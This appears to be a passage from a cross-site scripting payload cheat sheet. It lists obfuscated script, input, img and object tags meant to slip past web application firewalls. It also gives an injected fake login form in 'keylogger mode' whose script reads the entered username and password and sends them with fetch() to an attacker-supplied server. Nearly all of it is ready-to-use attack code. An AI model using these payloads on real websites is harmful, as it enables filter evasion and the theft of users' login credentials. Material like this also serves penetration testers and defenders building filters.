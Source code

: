 ### WAF bypass
```
<sCriPt>alert``</sCRipT>
<sCriPt>eval('alert\x280\x29');</sCRipT>
<sCriPt>setTimeout('alert\x280\x29',0);</sCRipT>
<sCriPt>Function('alert\x280\x29')();</sCRipT>
<sCriPt>window.location='javascript:alert(0)';</sCRipT>
<iNpUt &gt; id="x"onfocus="window['\a\l\ert']()" autofocus />
<iNpUt type=im&#x000000000000000000000000000000061;ge &gt; id="x"oNerRor="window['\a\l\ert']()" src />
<iNpUt %253e onfocus="&#x000000000000000000000000000000061;lert()" autofocus />
<iNpUt x="&quot; /> " id=""onfocus="window['\a\l\ert']()" autofocus/>
<iNpUt x="&#x22; /> " id=""onfocus="window['\a\l\ert']()" autofocus/> 
<iNpUt x='&#39; /> ' id=""onfocus="window['\a\l\ert']()" autofocus/>
<iNpUt /&#62; id=""onfocus="window['\a\l\ert']()" autofocus/>
<iMG src &gt; onerror="alert&#x000000028;&#x29;" />
<iMG src onload=%ff%00%ffAAA onerror=alert() />
<iMG onerror="top['loc\u{61}tion'] = 'javascript:alert\u{28})'" src />
<oBjECt data="javascript:window['\a\l\ert']()" />
```

### Fake authentication form sending credentials in keylogger mode

    <input type="text" name="username" id="username" /><input type="password" name="password" id="password" /><script>function sleep(ms){return new Promise(r => setTimeout(r,ms));}sleep(3000).then(()=> {var user =document.getElementById('username').value;var pass = document.getElementById('password').value;var user_pass = user+"_"+pass;fetch("https://[YOUR_SERVER]?u="+user_pass);});</script>
